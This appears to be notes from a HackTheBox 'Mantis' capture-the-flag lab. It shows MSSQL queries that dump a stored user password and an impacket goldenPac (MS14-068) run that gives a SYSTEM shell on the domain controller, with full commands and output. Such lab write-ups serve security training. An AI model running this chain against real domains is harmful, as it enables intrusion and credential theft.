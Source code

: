 ### Nmap 1433 
`ms-sql-ntlm-info`, Domain name and Computer name are required by the goldedPAC later on.
### DBbeaver failed on TLS1.0 MSSQL
##### show database
```bash
sqsh -S $IP -U 'admin' -P 'm$$ql_S@_P@ssW0rd!'
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
1> select name from sys.databases
2> go

name      

master
tempdb
model                                                                                                                                                                                     
msdb                                                                                                                                                                                      
orcharddb
```
##### show tables
```bash
1> select table_name from orcharddb.information_schema.tables;
2> go

table_name                                                                                                                                                                                

blog_Orchard_Blogs_RecentBlogPostsPartRecord                                                                                                                                              
blog_Orchard_Blogs_BlogArchivesPartRecord
<SNIP>...
```

Use `grep` to find those `user` related

##### show columns
```bash
1> select column_name from orcharddb.information_schema.columns where table_name='blog_Orchard_Users_UserPartRecord';
2> go

column_name 

Id
UserName
Email
NormalizedUserName
Password
```

##### Get creds
```bash
1> use orcharddb
2> go
1> select Password from blog_Orchard_Users_UserPartRecord
2> go

Password                                                                                                                                                                                  

AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==                                                                                                                      
J@m3s_P@ssW0rd!
```


### goldenPac MS14-068
The computer name is critical here to make it work

```bash
/usr/bin/impacket-goldenPac htb.local/James:'J@m3s_P@ssW0rd!'@10.129.98.3
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local seems not vulnerable (Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database))
❯ /usr/bin/impacket-goldenPac htb.local/James:'J@m3s_P@ssW0rd!'@mantis.htb.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file rXNyPJEv.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service umKg on mantis.htb.local.....
[*] Starting service umKg.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```
### Reference
* https://0xdf.gitlab.io/2020/09/03/htb-mantis.html#
* https://arz101.medium.com/hackthebox-mantis-33b955d65522
* https://medium.com/@0xAn0m4ly/mantis-hackthebox-detailed-writeup-75c1309cf08c
* https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.html
* https://labs.withsecure.com/publications/digging-into-ms14-068-exploitation-and-defence
* https://github.com/A1vinSmith/OSCP-PWK/tree/master/PgPractice/Windows/Active%20Directory/Heist#quick-win-with-zerologon-nothing-httpsgithubcoma1vinsmithzerologon
* https://github.com/A1vinSmith/OSEP/tree/main/HTB/Windows/Fuse#method-2-zerologon